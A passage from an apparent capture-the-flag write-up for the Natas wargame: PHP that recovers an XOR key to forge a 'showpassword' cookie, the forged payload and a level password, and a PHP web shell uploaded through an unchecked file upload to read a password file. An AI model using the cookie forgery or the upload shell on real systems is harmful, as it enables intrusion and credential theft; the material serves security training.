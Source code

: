 ```php

    $key = getKey($defaultdata, $originalcookie);
    
    function generateValidPayload($d, $key) {
        $payload = base64_encode(xor_encrypt(json_encode($d), $key));
        return $payload;
    }
    var_dump($key);

    $new = generateValidPayload($modifieddata, "KNHL");
    
    echo $new;
?>
```

What we need to do is to craft a valid cookie value, such that when it is decoded and decrypted on the server side, it will generate an entry of `array( "showpassword"=>"yes", "bgcolor"=>"#ffffff")`. Note that `bgcolor` does not matter in the checking.

To figure out the key of the `xor` encryption, we can do the `xor` operation on the plaintext (the JSON encoded string of the `defaultdata`) and the ciphertext (the value of `"data"` in the cookie). This is because of the way `xor`, or one-time pad works: 

```
ciphertext = plaintext xor key
ciphertext xor plaintext = plaintext xor key xor plaintext
ciphertext xor plaintext = key
```

The key, after doing these operations, is `KNHL`. The key is repeated due to the way that the `xor` operation in the `xor_encrypt`, each 4 characters in the plaintext will be `xor`-ed with the key. Hence, in the result of the above code, you can see that the `KNHL` string is repeated multiple times.

With the key, we can easily generate the correct payload to retrieve the password. The target plaintext is the array `array( "showpassword"=>"yes", "bgcolor"=>"#ffffff")`. We follow the way that the original PHP code encode and encrypt the array to generate the payload. Changing the cookie value to the payload, then after submitted the form we can retrieve the flag.

Payload is `MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz`

natas12: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

# Natas 12

There is no checking in the source code that the uploaded file must be a JPEG file, hence we can upload any file that we want to the server. Since the backend is running on PHP, we might as well upload a PHP file to get the content of the file in `/etc/natas_webpass/natas13`. The file we will upload is the following:

```php
<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
```
